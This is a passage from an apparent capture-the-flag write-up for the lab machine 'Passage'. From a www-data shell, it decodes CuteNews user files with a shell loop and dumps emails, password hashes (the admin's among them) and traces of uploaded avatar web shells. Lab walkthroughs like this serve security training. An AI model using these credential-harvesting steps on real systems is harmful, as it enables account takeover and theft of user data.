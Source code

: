 ```console
```
## Checking a random file
```console
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat 7a.php 
<?php die('Direct call - access denied'); ?>
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo5OiJzaWQtbWVpZXIiO2E6OTp7czoyOiJpZCI7czoxMDoiMTU5MjQ4MzI4MSI7czo0OiJuYW1lIjtzOjk6InNpZC1tZWllciI7czozOiJhY2wiO3M6MToiMyI7czo1OiJlbWFpbCI7czoxNToic2lkQGV4YW1wbGUuY29tIjtzOjQ6Im5pY2siO3M6OToiU2lkIE1laWVyIjtzOjQ6InBhc3MiO3M6NjQ6IjRiZGQwYTBiYjQ3ZmM5ZjY2Y2JmMWE4OTgyZmQyZDM0NGQyYWVjMjgzZDFhZmFlYmI0NjUzZWMzOTU0ZGZmODgiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg1NjQ1IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIyIjt9fX0=
www-data@passage:/var/www/html/CuteNews/cdata/users$ 
```
### Decoding the text
```console
www-data@passage:/var/www/html/CuteNews/cdata/users$ tail -n 1 7a.php  | base64 -d
a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```
We got a bunch of information including email, and a password hash.
### Checking all files

```console
www-data@passage:/var/www/html/CuteNews/cdata/users$ for file in `ls *.php`;do tail -n 1 $file | base64 -d 2>/dev/null;printf "\n" ;done
a:2:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}s:4:"name";a:1:{s:4:"test";a:9:{s:2:"id";s:10:"1600432799";s:4:"name";s:4:"test";s:3:"acl";s:1:"4";s:5:"email";s:13:"test@test.com";s:4:"nick";s:4:"test";s:4:"pass";s:64:"5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:6:"avatar";s:21:"avatar_test_shell.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}
a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:2:{s:2:"id";a:1:{i:1600428102;s:4:"hack";}s:5:"email";a:1:{s:15:"crimblast@pm.me";s:9:"crimblast";}}
a:1:{s:2:"id";a:1:{i:1598910896;s:6:"hacker";}}
a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}
a:1:{s:4:"name";a:1:{s:9:"crimblast";a:11:{s:2:"id";s:10:"1600435230";s:4:"name";s:9:"crimblast";s:3:"acl";s:1:"4";s:5:"email";s:15:"crimblast@pm.me";s:4:"nick";s:0:"";s:4:"pass";s:64:"b0fef621727ff82a7d334d9f1f047dc662ed0e27e05aa8fd1aefd19b0fff312c";s:3:"lts";s:10:"1600435464";s:3:"ban";s:1:"0";s:4:"more";s:4:"Tjs=";s:6:"avatar";s:26:"avatar_crimblast_43796.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}
a:1:{s:5:"email";a:1:{s:20:"hacker@hacker.hacker";s:6:"hacker";}}
a:1:{s:2:"id";a:1:{i:1600432799;s:4:"test";}}
a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}
a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1600435230;s:9:"crimblast";}}
a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:5:"email";a:1:{s:13:"test@test.com";s:4:"test";}}
```
